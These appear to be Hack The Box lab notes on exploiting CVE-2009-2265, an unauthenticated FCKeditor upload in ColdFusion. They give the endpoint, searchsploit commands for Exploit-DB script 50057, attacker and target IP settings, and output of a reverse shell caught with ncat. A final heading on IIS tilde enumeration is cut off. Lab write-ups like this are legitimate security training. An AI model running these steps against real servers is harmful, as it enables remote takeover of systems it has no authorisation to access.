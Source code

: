 ## 💥 Unauthenticated RCE – CVE-2009-2265

### 📖 Description

Allows file upload via `FCKeditor`, leading to arbitrary code execution.

### 📍 Endpoint

```http
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm
```

### 🧪 Exploit Setup

```bash
$ searchsploit -p 50057
$ cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

#### 🔧 Modify Exploit

```python
lhost = '10.10.14.55'  # Attacker (HTB VPN) IP
lport = 4444           # Attacker listening port
rhost = "10.129.247.30" # Target IP
rport = 8500            # Target ColdFusion port
```

## 🧪 Exploit Execution

```bash
$ python3 50057.py
```

### 🖥️ Output Sample

* JSP payload uploaded
* Callback to attacker's listener (reverse shell)

```bash
Ncat: Connection from 10.129.247.30.
Microsoft Windows [Version 6.1.7600]

C:\ColdFusion8\runtime\bin> dir
```

---

# 🛠️ IIS Tilde Enumeration Notes

## 📖 Overview
